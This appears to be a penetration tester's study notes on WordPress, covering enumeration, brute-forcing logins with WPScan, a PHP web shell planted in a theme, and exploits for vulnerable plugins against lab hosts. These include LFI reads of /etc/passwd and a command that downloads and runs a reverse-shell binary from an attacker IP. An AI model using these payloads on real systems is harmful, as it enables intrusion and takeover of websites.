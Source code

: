 # WordPress

## General

{% hint style="info" %}
[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)
{% endhint %}

```shell
# Web root
/wp-admin
    admin.php
/wp-content
    /themes
    /plugins
/wp-includes
index.php
license.txt
readme.html
wp-activate.php
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-cron.php
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
.htaccess
wp-config.php # database info
```

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Enumeration

{% tabs %}
{% tab title="Manual" %}
{% code overflow="wrap" %}
```bash
# Version
curl -s example.com | grep '<meta name="generator"'

# Themes
curl -s example.com | grep themes

# Plugins
curl -s example.com | grep plugins

# Plugin version (requires Directory listing to be enabled)
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}

{% tab title="wpscan" %}
[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

{% code overflow="wrap" %}
```bash
# Update database
wpscan --update

# General enumeration
sudo wpscan --url example.com --enumerate --api-token <TOKEN>

# Plugins
sudo wpscan -t 20 --url http://readys -e ap --plugins-detection aggressive

# Modify agent for WAF evasion
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

### BFA

`wp-login.php` is the standard login form that accepts one login attempt per request. `xmlrpc.php` allows login via API calls and can bundle many attempts in one request, making brute-force faster. Even if `wpscan` outputs that XML-RPC is enabled, login-related methods may be blocked by plugins or server settings, so attacks through it can fail while `wp-login` attacks still work.

WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`&#x20;

{% code overflow="wrap" %}
```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted BFA using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou

# Targeted BFA using wp-login
sudo wpscan --password-attack wp-login -t 20 --url http://example.com -U james -P cewl_tokens.txt
```
{% endcode %}

### RCE

{% tabs %}
{% tab title="Manual" %}
Modify an inactive theme (for avoiding breaking the site) by inserting a PHP web shell:&#x20;

```php
<?php system($_GET['c']); ?>
```

<figure><img src="../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

The same exact method can be done with Plugins:

{% hint style="warning" %}
Remeber to activate the plugin after: _Plugins_ → _Installed Plugins_ → _Activate_.
{% endhint %}

<figure><img src="../../.gitbook/assets/wp_rce_2.png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="MSF" %}
MSF's [`wp_admin_shell_upload`](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) module can be used:

```bash
# use module (make sure to set VHOST if needed)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```
{% endtab %}
{% endtabs %}

## Plugins

{% tabs %}
{% tab title="mail-masta" %}
No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

{% code overflow="wrap" %}
```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

{% code overflow="wrap" %}
```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="wpDiscuz" %}
wpDiscuz version `7.0.4` contains a **file upload vulnerability** **that can lead to unauthenticated remote code execution** ([CVE-2020-24186](https://nvd.nist.gov/vuln/detail/CVE-2020-24186)). Although the plugin is meant to accept only image attachments in comments, its MIME type validation can be bypassed, allowing a PHP file to be uploaded and executed. Exploitation requires a valid post with comments enabled.

```bash
# Add the magic byte of GIF and upload the reverse shell
GIF89a;
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

The [PoC](https://www.exploit-db.com/exploits/49967) takes two arguments: `-u` for the target URL and `-p` for the path to a comment-enabled post. Once executed, the script uploads the payload and returns the file path for remote code execution.

{% hint style="warning" %}
The default PoC may fail, but `curl` can be used to interact with the uploaded webshell.
{% endhint %}

{% code overflow="wrap" %}
```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...

$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}
{% endtab %}

{% tab title="simple-file-list" %}
Simple File List plugin < `4.2.3` is vulnerable to an **unauthenticated RCE** flaw ([CVE-2025-34085](https://nvd.nist.gov/vuln/detail/CVE-2025-34085/change-record?changeRecordedOn=07/16/2025T12:15:26.130-0400)). Despite being designed to allow file uploads, the plugin fails to properly validate files after they are renamed. An attacker can upload a file with a benign extension (e.g., `.png`) that actually contains PHP code. Using a vulnerable script within the plugin, the file can then be renamed to `.php` and accessed directly, resulting in full remote code execution. The available [PoC](https://github.com/B1ack4sh/Blackash-CVE-2025-34085) allows direct RCE via the `--cmd` parameter:&#x20;

{% code overflow="wrap" %}
```bash
# Transfer a reverse shell payload
$ python3 CVE-2025-34085.py -u http://nukem --cmd "wget http://192.168.45.170/revshell.elf -O /tmp/revshell.elf"

# Make the file executable
$ python3 CVE-2025-34085.py -u http://nukem --cmd "chmod +x /tmp/revshell.elf"

# Execute the file
$ python3 CVE-2025-34085.py -u http://nukem --cmd "/tmp/revshell.elf"
```
{% endcode %}
{% endtab %}

{% tab title="Site Editor" %}
The Site Editor plugin, up to version `1.1.1`, is vulnerable to an unauthenticated LFI flaw ([CVE-2018-7422](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422)) via the `ajax_path` parameter in the `ajax_shortcode_pattern.php` script, part of its PageBuilder extension. This endpoint fails to sanitize input, allowing attackers to include arbitrary files using absolute paths.

{% code overflow="wrap" %}
```bash
$ searchsploit WordPress Site Editor
WordPress Plugin Site Editor 1.1.1 - Local File Inclusion | php/webapps/44340.txt

$ curl -s --path-as-is "http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd"
```
{% endcode %}
{% endtab %}
{% endtabs %}
